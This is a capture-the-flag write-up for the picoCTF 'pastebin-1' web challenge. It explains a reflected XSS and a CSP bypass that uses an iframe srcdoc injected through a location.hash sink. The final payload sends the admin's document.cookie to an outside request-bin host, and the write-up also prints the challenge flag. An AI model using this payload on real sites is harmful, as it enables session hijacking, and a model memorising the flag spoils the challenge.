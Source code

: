 # pastebin-1
Web

# Solution

We receive the source code for a pastebin-like service:

```javascript
const http = require('http')

const pageNew = `<!doctype html>
<h3>make a new paste</h3>
<form>
  <textarea name="paste"></textarea>
  <br>
  <input type="submit">
</form>
<div id="error"></div>
<script>error.innerHTML=decodeURIComponent(location.hash.slice(1))</script>
`

http.createServer((req, res) => {
  if (req.method !== 'GET') {
    return res.writeHead(405).end()
  }
  const [pathname, query] = req.url.split('?', 2)
  const paste = new URLSearchParams(query).get('paste')
  const sendMsg = msg => res.writeHead(302, { location: `/#${encodeURIComponent(msg)}` }).end()
  if (pathname !== '/') {
    return sendMsg('error: unknown path')
  }
  if (!paste) {
    return res.writeHead(200, {
      'content-type': 'text/html',
      'content-security-policy': 'default-src \'none\'; script-src \'self\' \'sha256-a857n1MW8s/5S6R7Gyc+gFaD9SwMs5eEheAroy0rzWw=\''
    }).end(pageNew)
  }
  res.writeHead(200, {
    'content-type': 'text/html',
    'content-security-policy': 'default-src \'none\''
  }).end(paste)
}).listen(3000, () => console.log('listening'))
```

The service allows pasting text and then reading it back.

We also get an additional webpage where we can report a link to an admin and have him visit the link. This usually means that we need to use XSS to cause admin to execute some malicious code (usually leak us his cookie).

As we can see from the source code, our paste gets posted as-is without any sanitization:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/pastebin-1]
└─$ curl 'https://pastebin-1.mars.picoctf.net/?paste=test'
test
```

So, we can just go ahead and submit Javascript code:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/pastebin-1]
└─$ curl 'https://pastebin-1.mars.picoctf.net/?paste=<script>alert(1)</script>'
<script>alert(1)</script>
```

Since the service supports GET requests, it's very easy to share such links which contain Javascript code. The only problem, of course, is the CSP:

```javascript
  res.writeHead(200, {
    'content-type': 'text/html',
    'content-security-policy': 'default-src \'none\''
  }).end(paste)
```

A CSP of `default-src 'none'` blocks any script execution, so even if someone visits `'https://pastebin-1.mars.picoctf.net/?paste=<script>alert(1)</script>'` they won't see any alert popping up. Therefore, we will need to continue looking for an entry vector.

As we can see, if the current request doesn't contain a paste, the CSP is a bit more permissive:

```javascript
  if (!paste) {
    return res.writeHead(200, {
      'content-type': 'text/html',
      'content-security-policy': 'default-src \'none\'; script-src \'self\' \'sha256-a857n1MW8s/5S6R7Gyc+gFaD9SwMs5eEheAroy0rzWw=\''
    }).end(pageNew)
  }
```

In this case, `script-src` is set to `self` (which means scripts from the same origin are accepted) and `sha256-a857n1MW8s/5S6R7Gyc+gFaD9SwMs5eEheAroy0rzWw=` (which means that scripts that have the given SHA256 signature are accepted). The SHA256 signature is here to allow the following script, which is embedded into the page:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/pastebin-1]
└─$ echo -n "error.innerHTML=decodeURIComponent(location.hash.slice(1))" | sha256sum | awk '{ printf $1 }' | xxd -p -r | base64
a857n1MW8s/5S6R7Gyc+gFaD9SwMs5eEheAroy0rzWw=
```

Since we won't be able to find a collision which matches the same hash, we need to concentrate on the `script-src 'self'` part. We already know that we can create any Javascript code we want using the `paste` parameter, so we should probably look for a way to get it executed in the context of the main page.

Notice the the main page has the following code:

```html
<div id="error"></div>
<script>error.innerHTML=decodeURIComponent(location.hash.slice(1))</script>
```

This means that for a given URL, anything after the `#` sign will be rendered as HTML. So, for example, we can access `https://pastebin-1.mars.picoctf.net/#%3Cb%3Etest%3C/b%3E` and get the following HTML code:

```html
<html><head></head><body><h3>make a new paste</h3>
<form>
  <textarea name="paste"></textarea>
  <br>
  <input type="submit">
</form>
<div id="error"><b>test</b></div>
<script>error.innerHTML=decodeURIComponent(location.hash.slice(1))</script>
</body></html>
```

Of course, we, can't use a `<script>` tag since it won't get executed due to the CSP policy. However, using [these CSP bypass guidelines](https://brutelogic.com.br/blog/csp-bypass-guidelines/) we arrive to [this tweet](https://twitter.com/brutelogic/status/1359146022149251073) which contains:

> #XSS vector for when you need to call a script to bypass some "script-src" CSP directive in a DOM-based scenario.
> 
> `<Iframe SrcDoc="<Script Src=URL></Script>">`

Here's a proof of concept which pops up an alert:

```
https://pastebin-1.mars.picoctf.net/#<Iframe SrcDoc="<Script Src=https://pastebin-1.mars.picoctf.net/%3fpaste=alert`1`></Script>">
```

We just need to extend this by creating a request bin and leaking the admin cookie:

```
https://pastebin-1.mars.picoctf.net/#%3CIframe%20SrcDoc=%22%3CScript%20Src=https://pastebin-1.mars.picoctf.net/%3fpaste=window.open(`https://enpma6yaxzylc.x.pipedream.net/`.concat(btoa(document.cookie)))%3E%3C/Script%3E%22%3E
```

This uses the same infrastructure as the `alert` from the PoC, but instead of calling `alert` we trigger a request to our request-bin, to which we append the cookie: 

```javascript
window.open(`https://enpma6yaxzylc.x.pipedream.net/`.concat(btoa(document.cookie)))
```

We send the link to the admin and after a few moments receive the flag:

```
flag=picoCTF{c0nt3nt_s3curity_p0licy_is_c00l}
```
